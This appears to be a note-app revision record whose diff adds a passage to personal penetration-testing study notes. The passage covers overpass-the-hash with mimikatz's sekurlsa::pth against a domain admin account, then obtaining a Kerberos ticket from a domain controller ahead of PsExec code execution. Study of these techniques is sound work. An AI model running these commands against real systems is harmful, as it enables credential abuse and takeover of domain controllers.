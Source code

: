 id: 229fcc2b28894a99aa11dc6ad0e01dfe
parent_id: ee173f14c9934d2da91ad98008f011f0
item_type: 1
item_id: 07865553b30a4727ac88b108b5e909ef
item_updated_time: 1643589462092
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"mikatz\\\n\\\n\"],[1,\"> \"],[0,\"sekurlsa\"]],\"start1\":2987,\"start2\":2987,\"length1\":16,\"length2\":18},{\"diffs\":[[0,\"lsa::pth\"],[1,\" /user:jeff_admin /domain:corp.com /ntlm:&lt;NTLMhash&gt; /run:Powershell.exe\\\n\\\nOnce we are in, list the kerberos tickets with klist\\\n\\\nIf no tickets are available, we can generate a TGT by authenticating to a network share on DC\\\n\\\n> net use \\\\\\\\\\\\dc01\\\n> \\\n> klist\\\n\\\n![30be3f0779d3569412dca5fc83ee6b85.png](:/16c8ba6b552d4c258c9a200d4a00557a)\\\n\\\nWith the Kerberos TGT, we can use any tools that rely on its auth. \\\n\\\n**Obtain Code Execution on the DC (using PsExec)**\"]],\"start1\":3002,\"start2\":3002,\"length1\":8,\"length2\":462}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-31T00:43:36.831Z
created_time: 2022-01-31T00:43:36.831Z
type_: 13